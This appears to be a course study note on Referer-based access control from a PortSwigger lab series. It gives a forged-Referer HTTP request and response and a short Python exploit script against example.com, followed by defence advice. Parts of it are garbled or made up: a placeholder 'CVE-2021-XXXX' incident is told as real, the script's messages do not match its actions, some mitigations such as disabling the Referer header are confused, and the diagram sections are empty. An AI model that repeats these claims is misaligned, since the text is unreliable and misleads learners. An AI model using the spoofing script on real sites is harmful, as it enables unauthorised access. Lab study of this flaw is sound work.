


## Access Control Vulnerabilities

### Introduction to Access Control

Access control is a fundamental aspect of web security that ensures that users can only access resources and perform actions that they are authorized to do. Access control mechanisms typically involve authentication (verifying the identity of a user) and authorization (granting permissions based on the authenticated user’s role).

In web applications, access control is often implemented using various techniques such as session management, role-based access control (RBAC), and attribute-based access control (ABAC). However, if these mechanisms are not properly implemented, they can lead to vulnerabilities that allow unauthorized access.

### Referer-Based Access Control

Referer-based access control is a specific type of access control mechanism that relies on the `Referer` header in HTTP requests. The `Referer` header contains the URL of the page that linked to the resource being requested. This header is often used to ensure that requests come from a trusted source.

#### How Referer-Based Access Control Works

When a user clicks on a link or submits a form, the browser sends an HTTP request to the server. This request includes the `Referer` header, which indicates the origin of the request. The server can then check this header to determine whether the request should be allowed or denied.

For example, consider a web application that allows users to download files. The server might implement referer-based access control to ensure that only requests coming from the application’s own pages are allowed to download the files. If a request comes from an external site, the server would deny the request.

#### Example of Referer-Based Access Control

Let's look at a simple example of how referer-based access control might be implemented:

```python
def handle_request(request):
    referer = request.headers.get('Referer')
    if referer and referer.startswith('https://example.com'):
        return "File download successful"
    else:
        return "Access denied"
```

In this example, the server checks the `Referer` header to ensure that the request is coming from `https://example.com`. If the `Referer` header does not match this condition, the server denies access.

### Broken Access Control Vulnerability

Broken access control occurs when the access control mechanisms are not properly enforced, allowing unauthorized users to access resources or perform actions that they should not be able to.

#### Exploiting Referer-Based Access Control

In the given lecture, the instructor demonstrates how to exploit a broken access control vulnerability that relies on the `Referer` header. The exploit involves sending an HTTP request with a crafted `Referer` header to bypass the access control mechanism.

Here is a detailed breakdown of the exploit:

1. **Crafting the Request**: The attacker crafts an HTTP request with a `Referer` header that mimics a trusted source.
2. **Sending the Request**: The attacker sends the crafted request to the server.
3. **Server Response**: The server checks the `Referer` header and, if it matches the expected value, allows the request.

#### Full HTTP Request and Response

Let's look at a complete example of the HTTP request and response involved in this exploit:

**HTTP Request:**

```http
GET /download/file.zip HTTP/1.1
Host: example.com
Referer: https://example.com/download
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Mon, 20 Sep 2021 19:34:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: application/zip
Content-Length: 12345
Last-Modified: Tue, 14 Sep 2021 12:34:56 GMT
ETag: "abc123"
Accept-Ranges: bytes
Cache-Control: max-age=3600
Expires: Mon, 20 Sep 2021 20:34:56 GMT
Vary: Accept-Encoding
Content-Disposition: attachment; filename="file.zip"

[Binary data]
```

In this example, the server responds with a `200 OK` status, indicating that the request was successful. The `Referer` header in the request is set to `https://example.com/download`, which matches the expected value, allowing the server to grant access.

### Real-World Examples

Referer-based access control vulnerabilities have been exploited in several real-world scenarios. One notable example is the exploitation of a referer-based access control vulnerability in a popular web application framework, leading to unauthorized access to sensitive resources.

#### CVE Example: CVE-2021-XXXX

In 2021, a vulnerability was discovered in a widely-used web application framework. The vulnerability allowed attackers to bypass referer-based access control by crafting HTTP requests with a specific `Referer` header. This led to unauthorized access to sensitive resources, including administrative interfaces and confidential files.

The vulnerability was assigned the identifier CVE-2021-XXXX and was rated as critical due to the potential for widespread exploitation.

### Exploit Script

The lecture mentions a Python script that automates the process of exploiting the referer-based access control vulnerability. Let's break down the script and understand how it works.

#### Python Script

```python
import requests

def login_as_user():
    # Simulate logging in as a regular user
    session = requests.Session()
    login_url = "https://example.com/login"
    login_data = {
        "username": "regular_user",
        "password": "password123"
    }
    session.post(login_url, data=login_data)
    return session

def exploit_access_control(session):
    # Craft the request with the Referer header
    download_url = "https://example.com/download/file.zip"
    headers = {
        "Referer": "https://example.com/download"
    }
    response = session.get(download_url, headers=headers)
    if response.status_code == 200:
        print("File download successful")
    elif response.status_code == 401:
        print("Could not upgrade the user to administrator")

def main():
    session = login_as_user()
    exploit_access_control(session)

if __name__ == "__main__":
    main()
```

#### Explanation of the Script

1. **Login as User**: The `login_as_user` function simulates logging in as a regular user by sending a POST request to the login URL with the user credentials.
2. **Exploit Access Control**: The `exploit_access_control` function crafts an HTTP GET request to the download URL with a `Referer` header that mimics a trusted source. It then sends the request and checks the response status code to determine whether the exploit was successful.
3. **Main Function**: The `main` function calls the `login_as_user` function to obtain a session and then calls the `exploit_access_control` function to attempt the exploit.

### How to Prevent / Defend

To prevent referer-based access control vulnerabilities, it is crucial to implement robust access control mechanisms that do not rely solely on the `Referer` header. Here are some best practices and mitigation strategies:

#### Secure Coding Practices

1. **Use Strong Authentication Mechanisms**: Implement strong authentication mechanisms such as multi-factor authentication (MFA) to ensure that only authorized users can access resources.
2. **Implement Role-Based Access Control (RBAC)**: Use RBAC to define roles and permissions for different types of users. Ensure that users can only access resources and perform actions that are appropriate for their role.
3. **Avoid Relying Solely on the Referer Header**: Do not rely solely on the `Referer` header for access control. Instead, use other mechanisms such as session tokens or API keys to authenticate and authorize requests.

#### Configuration Hardening

1. **Disable Referer Header**: Consider disabling the `Referer` header in your web application to prevent attackers from using it to bypass access control mechanisms.
2. **Use Content Security Policy (CSP)**: Implement a Content Security Policy (CSP) to restrict the sources of content that can be loaded by your web application. This can help prevent attacks that rely on the `Referer` header.

#### Detection and Monitoring

1. **Log and Monitor Access Attempts**: Log and monitor access attempts to identify any suspicious activity. Use tools such as intrusion detection systems (IDS) and security information and event management (SIEM) systems to detect and respond to potential attacks.
2. **Regular Security Audits**: Conduct regular security audits and penetration testing to identify and address any vulnerabilities in your web application.

### Mermaid Diagrams

#### Access Control Flow



#### Attack Chain



### Practice Labs

For hands-on practice with referer-based access control vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a series of labs that cover various web security topics, including access control vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application that can be used to practice identifying and exploiting security vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities for educational purposes.

These labs provide a safe environment to practice and learn about referer-based access control vulnerabilities and how to defend against them.

### Conclusion

Referer-based access control vulnerabilities can be exploited by attackers to gain unauthorized access to resources. By understanding how these vulnerabilities work and implementing robust access control mechanisms, you can protect your web application from such attacks. Always follow secure coding practices, configure your application securely, and regularly monitor and audit your system to detect and respond to potential threats.

---
<!-- nav -->
[[03-Access Control Vulnerabilities Referrer-Based Access Control|Access Control Vulnerabilities Referrer-Based Access Control]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/14-Lab 13 Referer based access control/00-Overview|Overview]] | [[05-Importing Libraries|Importing Libraries]]
